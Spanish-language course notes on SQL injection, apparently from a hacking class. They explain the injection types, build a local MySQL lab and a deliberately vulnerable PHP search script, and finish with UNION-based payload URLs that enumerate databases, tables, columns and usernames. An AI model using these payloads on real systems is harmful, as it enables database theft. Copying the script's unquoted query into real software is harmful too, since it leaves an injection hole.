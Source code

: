 
----
- Tags: #SQL #INJECTION 
----
**SQL Injection** (**SQLI**) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que **no validan adecuadamente** la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.

Las inyecciones SQL se producen cuando los atacantes insertan código SQL malicioso en los campos de entrada de una aplicación web. Si la aplicación no valida adecuadamente la entrada del usuario, la consulta SQL maliciosa se ejecutará en la base de datos, lo que permitirá al atacante obtener información confidencial o incluso controlar la base de datos.

Hay varios tipos de inyecciones SQL, incluyendo:

- **Inyección SQL basada en errores**: Este tipo de inyección SQL aprovecha **errores en el código SQL** para obtener información. Por ejemplo, si una consulta devuelve un error con un mensaje específico, se puede utilizar ese mensaje para obtener información adicional del sistema.
- **Inyección SQL basada en tiempo**: Este tipo de inyección SQL utiliza una consulta que **tarda mucho tiempo en ejecutarse** para obtener información. Por ejemplo, si se utiliza una consulta que realiza una búsqueda en una tabla y se añade un retardo en la consulta, se puede utilizar ese retardo para obtener información adicional
- **Inyección SQL basada en booleanos**: Este tipo de inyección SQL utiliza consultas con **expresiones booleanas** para obtener información adicional. Por ejemplo, se puede utilizar una consulta con una expresión booleana para determinar si un usuario existe en una base de datos.
- **Inyección SQL basada en uniones**: Este tipo de inyección SQL utiliza la cláusula “**UNION**” para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula “**UNION**” con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios.
- **Inyección SQL basada en stacked queries**: Este tipo de inyección SQL aprovecha la posibilidad de **ejecutar múltiples consultas** en una sola sentencia para obtener información adicional. Por ejemplo, se puede utilizar una consulta que inserta un registro en una tabla y luego agregar una consulta adicional que devuelve información sobre la tabla.

Cabe destacar que, además de las técnicas citadas anteriormente, existen muchos otros tipos de inyecciones SQL. Sin embargo, estas son algunas de las más populares y comúnmente utilizadas por los atacantes en páginas web vulnerables.

Asimismo, es necesario hacer una breve distinción de los diferentes tipos de bases de datos existentes:

- **Bases de datos relacionales**: Las inyecciones SQL son más comunes en bases de datos relacionales como MySQL, SQL Server, Oracle, PostgreSQL, entre otros. En estas bases de datos, se utilizan consultas SQL para acceder a los datos y realizar operaciones en la base de datos.
- **Bases de datos NoSQL**: Aunque las inyecciones SQL son menos comunes en bases de datos NoSQL, todavía es posible realizar este tipo de ataque. Las bases de datos NoSQL, como MongoDB o Cassandra, no utilizan el lenguaje SQL, sino un modelo de datos diferente. Sin embargo, es posible realizar inyecciones de comandos en las consultas que se realizan en estas bases de datos. Esto lo veremos unas clases más adelante.
- **Bases de datos de grafos**: Las bases de datos de grafos, como Neo4j, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los nodos y relaciones que se han almacenado en la base de datos.
- **Bases de datos de objetos**: Las bases de datos de objetos, como db4o, también pueden ser vulnerables a inyecciones SQL. En estas bases de datos, se utilizan consultas para acceder a los objetos que se han almacenado en la base de datos.

Es importante entender los diferentes tipos de inyecciones SQL y cómo pueden utilizarse para obtener información confidencial y controlar una base de datos. Los desarrolladores deben asegurarse de validar adecuadamente la entrada del usuario y de utilizar técnicas de defensa, como la sanitización de entrada y la preparación de consultas SQL, para prevenir las inyecciones SQL en sus aplicaciones web.

A continuación, se proporciona el enlace a la utilidad online de ‘**ExtendsClass**‘ que utilizamos en esta clase:

- **ExtendsClass MySQL Online**: [https://extendsclass.com/mysql-online.html](https://extendsclass.com/mysql-online.html)
----
# En este apartado daremos ejemplos de la utilización de las herramientas mencionadas:

- Empezaremos iniciando nuestro interpretador de **MYSQL**
```SQL
mysql -u root -p
```

- Este comando nos permite usar el interpretador que deseemos
```
use mysql;
```

- Este comando indica las tablas o databases del interpretador
```
show databases;
show tables;
```

- Si encontramos alguna información que nos interese podemos observar las columnas de ello con
```
describe user;
```

>**Por lo general la estructura es Base De Datos, Tablas, Columnas Y Datos**

- Para obtener datos de cada columna 
```
select user,password from user;
```

- Para saber si existe o no una columna con el nombre 
```
select user, password from user where user= 'root';
```

# Vamos a crear nuestra base de datos con tablas y columnas propias 

- Empezaremos creando la base de datos 
```
create database Sk8ware;
```

- Ahora crearemos nuestras tables con varias comlunas
```
create table users(id int(32), username varchar(32), password varchar(32));
```

- Para insertar datos en cierta tabla y columna determinada 
```
insert into users(id, username, password) values(1, 'admin', 'admin123');
```

```
insert into users(id, username, password) values(2, 'tony', 'tony1234');
```

- Para ver los usuarios creados
```
select username from users;
```
 >Si reemplazamos username por * nos permite ver todas las tablas con sus datos 

- Para el script que montaremos necesitaremos crear un usuario y contraseña especial para que se conecte a la base de datos
```
create user 'sk8ware'@'localhost' identified by 'sk8ware123';
```

- Hay que otorgar privilegios para que pueda conectarse y operar
```
grant all privileges on Sk8ware.* to 'sk8ware'@'localhost';
```

## Salimos del interprete y creamos un archivo nvim

```
nvim searchUsers.php
```

```PHP
<?php
  $server = "localhost";
  $username = "sk8ware";
  $password = "sk8ware123";
  $database = "Sk8ware";

  // Conexión a la base de datos 
  $conn = new mysqli($server, $username, $password, $database);

  // Sanitización
  $id =mysqli_real_escape_string($conn, $_GET['id']);

  // echo "[+] Tu valor introducido es: " . $id . "<br>-----------------------<br>";

  $data = mysqli_query($conn, "select username from users where id = $id");

  $response = mysqli_fetch_array($data);

  if(!isset($response['username'])){
    http_response_code(404);
  }

?>
```

**Esta opción nos permite ordenar usuarios y nombres de bases de datos apesar del error que indique en la url**
 
 Usuarios por id
- http://localhost/searchUsers.php?id=3' order by 1-- - 

 Nombre de la base de datos
- http://localhost/searchUsers.php?id=1245' union select database()-- - 

 Para ver todas las bases de datos
 - http://localhost/searchUsers.php?id=1245' union select group_concat(schema_name) from information_schema.schemata-- - 
 
 Para saber que tablas tienen las bases de datos
 - http://localhost/searchUsers.php?id=1245' union select group_concat(table_name) from information_schema.tables where table_schema='Sk8ware'-- - 

 Para saber que columnas tiene la base de datos
 - http://localhost/searchUsers.php?id=1245' union select group_concat(column_name) from information_schema.columns where table_schema='Sk8ware' and table_name='users'-- - 

 Para enlistar todos los usuarios
 -  http://localhost/searchUsers.php?id=1245' union select group_concat(username) from users-- -